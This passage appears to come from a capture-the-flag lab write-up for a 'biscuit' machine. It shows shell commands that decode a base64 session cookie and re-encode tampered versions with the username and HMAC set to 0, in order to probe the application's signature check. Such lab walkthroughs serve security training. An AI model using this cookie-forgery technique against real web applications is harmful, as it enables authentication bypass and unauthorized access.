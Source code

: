![guest page](../images/biscuit/guest_page.png)
<br>
But when we checked the `storage` section, we found a `JWT session cookie`.
`eyJobWFjIjoiNDg5OWM3MTIxNWEzMDdlZGUwMjkyYjY3MGRhNDE5NTkiLCJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwaXJhdGlvbiI6MTczNTI0NjM2MX0=`

When we decode it with Base64, we get the following content:
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/biscuit]
└──╼ $echo 'eyJobWFjIjoiNDg5OWM3MTIxNWEzMDdlZGUwMjkyYjY3MGRhNDE5NTkiLCJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwaXJhdGlvbiI6MTczNTI0NjM2MX0=' | base64 -d
{"hmac":"4899c71215a307ede0292b670da41959","username":"guest","expiration":1735246361}
```

```json
{"hmac":"4899c71215a307ede0292b670da41959","username":"guest","expiration":1735246361}
```
<br>
Here, we have an HMAC to sign and validate the user `guest`. Ref: [JSON Web Token (JWT) Signing Algorithms Overview](https://auth0.com/blog/json-web-token-signing-algorithms-overview/). What happens if I try to change the `username` or `HMAC`?
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/biscuit]
└──╼ $echo '{"hmac":"4899c71215a307ede0292b670da41959","username":0,"expiration":1735246361}' | base64

eyJobWFjIjoiNDg5OWM3MTIxNWEzMDdlZGUwMjkyYjY3MGRhNDE5NTkiLCJ1c2VybmFtZSI6MCwi ZXhwaXJhdGlvbiI6MTczNTI0NjM2MX0K
```

Change the value of the session cookie and send the request again.
<br>
We have an error in our application with the following exception and the first flag: `Biscuit Security Exception, you've been blocked due to cookie tampering. Stop or your IP address will be banned!`.
![changing_username.png](../images/biscuit/changing_username.png)
<br>
We can see that the request passes through `Auth.class.php`. Now, we need to test the change on the `HMAC`.
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/biscuit]
└──╼ $echo '{"hmac":0,"username":0,"expiration":1735246361}' | base64

eyJobWFjIjowLCJ1c2VybmFtZSI6MCwiZXhwaXJhdGlvbiI6MTczNTI0NjM2MX0K
```
<br>